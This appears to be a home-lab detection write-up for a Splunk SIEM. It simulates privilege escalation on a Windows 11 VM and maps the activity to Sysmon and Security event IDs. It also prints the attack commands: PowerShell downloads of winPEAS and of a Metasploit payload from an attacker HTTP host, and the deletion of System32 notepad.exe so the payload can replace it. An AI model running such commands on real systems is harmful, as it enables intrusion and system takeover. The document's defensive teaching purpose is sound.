

# Detection Usecase 1 : Privilege Escalation using WinPEAS


# Scenario Summary: 

An Attacker has gain a local access to a machine, he attempts to scan the system with winpeas for any weakness. The System was vulnerable to DLL Hijacking as attacker has write access to System32 folder. He tried to replace the notepad.exe with a malware and gain system level access to the Machine.

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.  
- The Attack was simulated by Kali Linux on Windows as follows:  

1) Attacker logged into the system using SSH:   
```
ssh sshuser@192.168.0.101
```  
2) Downloaded the winpeas and executed it:    
```
Invoke-WebRequest -URI http://192.168.0.106:8888/winpeas.exe -Outfile C:\Users\sshuser\winpeas.exe
./winpeas.exe all
```  
3) Attacker sees write permission to System32 folder so replace the notepad.exe with malware 
and got system-level access to machine in metasploit:  
  
```
del C:\Windows\System32\notepad.exe
Invoke-WebRequest -URI http://192.168.0.106:8888/notepad.exe -Outfile C:\Windows\System32\notepad.exe
notepad.exe
```

- Tools Used:  
    - Attacker Tool : SSH, WinPEASx64,msfvenom,Metasploit.    
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon  


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                         |
|---------------------------|-----------|-------------------------------------|
| WinEventLog : Sysmon      | 1         | Process Creation                    |
| WinEventLog : Sysmon      | 11        | File Creation                       |
| WinEventLog : Security    | 5156      | Connection Permission was permitted |

# Detection Query / Logic:
```spl 
- Search : Process or File Creation
index=* EventCode=1 OR EventCode=11
```
```spl 
- Search : Connection Attempt
index=* EventCode=3 OR EventCode=5156
```

# Sample Alert Screenshot

1) Attacker Downloaded WinPEAS using curl and executed it:  

  
  


2) Now attacker download notepad.exe using curl and executed it:   

  
  
  
  

3) After getting system-level shell user run 'whomai' command:  

  

# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the events(e.g.,Event ID = 1) and identify what command has been executed.  
-> Try to correlate it with any previous event(e.g.,Brute-Force or Enumeration,Failed Login etc.).  
-> If found command execution of any malicious file such as winpeas.exe, isolate the system and verify the location of the executable from logs(EventID 11 or 1).   
-> Now check the system for any lateral movement which attacker usually do after running winPEAS.    
-> Trigger an incident response.     
-> Document & Report.


# Detection Status

 -> Successfully Detected.  
